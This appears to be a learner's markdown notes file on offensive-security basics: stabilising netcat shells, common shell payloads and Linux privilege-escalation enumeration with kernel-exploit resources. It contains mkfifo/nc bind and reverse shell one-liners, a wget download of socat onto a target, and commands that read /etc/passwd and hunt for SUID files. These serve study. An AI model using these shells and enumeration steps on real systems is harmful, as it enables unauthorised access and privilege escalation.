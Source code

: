 # What the Shell 
## Netcat Shell Stabilisation  
### Technique 1: Python  
command:  
```
step 1: python -c 'import pty;pty.spawn("/bin/bash")'  

step 2: export TERM=xterm  

step 3: stty raw -echo; fg  
```
### Technique 2: rlwrap  
command: 
```
rlwrap nc -lvnp <port>  //background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell
```
### Technique 3: Socat  

command： 
```
sudo python3 -m http.server 80
wget <LOCAL-IP>/socat -O /tmp/socat  //download socat static compiled binary in target 

stty -a //note rows and columns in own terminal 

stty rows number   //set in shell 
stty cols numver   //set in shell 
```
### Socat Encrypted Shells 
### Common Shell Payloads 

a bit of vague***   

command:  
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f   //a bit of hard, but don't worry

mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
[PayloadAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### practice and example  
command:  
```
remmina  //login to the windows server
```


# Linux Privilege Escalation

## Enumeration 
### manul
[cut command](https://www.geeksforgeeks.org/cut-command-linux-examples/)  
[2>/dev/null ](https://qr.ae/pKgBo5)  
command:  
```
hostname //hostname of the target machine  
uname -a  //kernel information 
cat /proc/version  //proc filesystem kernel
cat /etc/issue  //system information  
ps //running processes 
ps -A //all runing processes 
ps axjf //process tree  
ps aux  //precess for all users
env /environmental variables 
sudo -l //what commands your user can run using sudo 
ls 
ls -l 
ls -la 
id //list general overview of the user's privilege level and group memberships
id <usrname>
cat /etc/passwd  
cat /etc/passwd | cut -d ":" -f 1 
cat /etc/passwd | grep home 
history
ifconfig  
ip route 
netstat -a 
netstat -at 
netstat -au  
netstat -l 
netstat -lt
netstat -s 
netstat -st
netstat -su
netstat -tp 
netstat -ltp   //run in root can complete display
netstat -i //show interface statistics  
netstat -ano //-a display all sockets -n do not resolve names -o display timers

find command 
find . -name flag1.txt //find the file named “flag1.txt” in the current directory
find /home -name flag1.txt //find the file names “flag1.txt” in the /home directory
find / -type d -name config //find the directory named config under “/”
find / -type f -perm 0777 //find files with the 777 permissions (files readable, writable, and executable by all users)
find / -perm a=x //find executable files
find /home -user frank //find all files for user “frank” under “/home”
find / -mtime 10 //find files that were modified in the last 10 days
find / -atime 10 //find files that were accessed in the last 10 day
find / -cmin -60 //find files changed within the last hour (60 minutes)
find / -amin -60 //find files accesses within the last hour (60 minutes)
find / -size 50M //find files with a 50 MB size
find / -size +100M  
find / -size +100M -type f 2 2>/dev/null 

find / -writable -type d 2>/dev/null  //Find world-writeable folders
find / -perm -222 -type d 2>/dev/null //Find world-writeable folders
find / -perm -o w -type d 2>/dev/null //Find world-writeable folders
find / -perm -o x -type d 2>/dev/null  //Find world-executable folders

find / -name perl*
find / -name python*
find / -name gcc*

find / -perm -u=s -type f 2>/dev/null  //Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
```
###  Automated 
1. [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
2. [LinEnum](https://github.com/rebootuser/LinEnum)
3. [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
4. [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) ***
5. [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

##  Privilege Escalation: Kernel Exploits  
step 1: identify the kernel version  
step 2: search public exploit  
step 3: run the exploit   

sources:  
1. google  
2. [linuxkernelcves](https://www.linuxkernelcves.com/cves)
3. [LES](https://github.com/The-Z-Labs/linux-exploit-suggester)

Notes:
1. search specific 
2. before exploit, underestand code
3. some exploits may require further interaction, read comments
4. python server transfer code 

CVE:  
* [CVE-2015-1328](https://github.com/SecWiki/linux-kernel-exploits/blob/master/2015/CVE-2015-1328/README.md)
